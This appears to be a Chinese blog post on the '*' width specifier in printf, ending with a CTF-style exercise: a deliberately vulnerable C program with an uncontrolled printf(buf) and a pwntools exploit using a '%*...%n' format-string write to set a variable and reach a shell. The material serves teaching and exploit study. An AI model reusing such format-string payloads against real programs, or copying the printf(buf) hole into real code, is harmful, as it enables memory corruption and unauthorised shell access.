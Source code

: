 ```yaml
---
layout: post
title: '格式化字符串中的占位符特殊用法'
subtitle: '格式化字符串'
date: 2021-03-29
categories: 技术
tags: fmt
---
```


##  *号的用法

*在printf里可以代表一个泛整数，可以代表任何整数。它可以出现在位宽的位置，也可以出现在小数位数的位置。 

对于下面这个程序

```c
#include<stdio.h>
int main(){
	float a = 3.14;
	printf("num:%*.2f",6,a);
}
```

它的输出是

```shell
num:  3.14
```

也就是%*.2f这个格式化参数在输出时一共占了6个字符大小。



那么下面给出一道例题

```c
//gcc -o test test.c -no-pie -g
#include<stdio.h>
#include<unistd.h>
#include<fcntl.h>
#include <stdlib.h>
long long num=0;
int main(){
	char buf[0x18];
	long long a=0;
	long long b=0;
	int fp = open("/dev/urandom",O_RDONLY);
	read(fp,&a,2);
	read(fp,&b,2);
	close(fp);
	puts("your name:");
	read(0,buf,0x18);
	puts("guess a number:");
	scanf("%lld",&num);
	printf(buf);
	
	if(a+b==num){
		puts("win!");
		system("/bin/sh");	
	}else{
		puts("wrong!");
		exit(0);
	}
}
```



不考虑爆破的情况，这里虽然可以通过格式化字符串泄露这两个值，但是这里只能先猜，所以这里用*来修改内存，先输出a、b两个数的宽度再用%n写入num，达到num=a+b的效果。

栈上情况

![1](/picture/fmt/2021-03-29-格式化字符串中的占位符特殊用法/1.png)

exp

```python
from pwn import*
p = process('./test')
num_addr = 0x601078
payload = '%*8$c%*9$c%12$n'.ljust(0x10,'a')+p64(num_addr)
p.sendafter('\n',payload)
p.sendlineafter('\n','0')
p.interactive()
```

